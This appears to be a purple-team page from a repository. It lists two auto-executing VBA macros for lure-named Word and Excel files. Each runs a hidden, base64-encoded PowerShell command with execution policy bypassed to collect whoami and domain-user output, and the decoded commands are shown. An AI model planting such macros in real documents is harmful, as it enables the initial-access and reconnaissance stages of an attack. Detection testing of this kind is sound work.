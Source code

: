# Office Macro enabled coudments

## performance_eval_2025.doc

The following macro will execute on document open:

**Encoded Command:**
```powershell
mkdir C:\temp;whoami /all > C:\temp\word_macro_output.txt
```

```VBA
Private Sub format_document()
MsgBox "Purple Team Test - check 'C:\temp\word_macro_output.txt'", vbOKOnly, "Ok"
  a = Shell("C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -nop -exec bypass -enc bQBrAGQAaQByACAAQwA6AFwAdABlAG0AcAA7AHcAaABvAGEAbQBpACAALwBhAGwAbAAgAD4AIABDADoAXAB0AGUAbQBwAFwAdwBvAHIAZABfAG0AYQBjAHIAbwBfAG8AdQB0AHAAdQB0AC4AdAB4AHQA", vbHide)

End Sub
Sub Document_Open()
    format_document
End Sub
Sub AutoOpen()
    format_document
End Sub

```

## budget_surplus_fy25.xls

The following macro will execute on workbook open:

**Encoded Command:**
```powershell
mkdir C:\temp;cmd.exe /c "net user /domain > C:\temp\excel_macro_output.txt"
```

```VBA
Sub format_workbook()
MsgBox "Purple Team Test - check: 'C:\temp\excel_macro_output.txt'", vbOKOnly, "Ok"
  a = Shell("C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -nop -exec bypass -enc bQBrAGQAaQByACAAQwA6AFwAdABlAG0AcAA7AGMAbQBkAC4AZQB4AGUAIAAvAGMAIAAiAG4AZQB0ACAAdQBzAGUAcgAgAC8AZABvAG0AYQBpAG4AIAA+ACAAQwA6AFwAdABlAG0AcABcAGUAeABjAGUAbABfAG0AYQBjAHIAbwBfAG8AdQB0AHAAdQB0AC4AdAB4AHQAIgA=", vbHide)

End Sub
Private Sub Workbook_Open()
    format_workbook
End Sub
Private Sub AutoOpen()
    format_workbook
End Sub
```
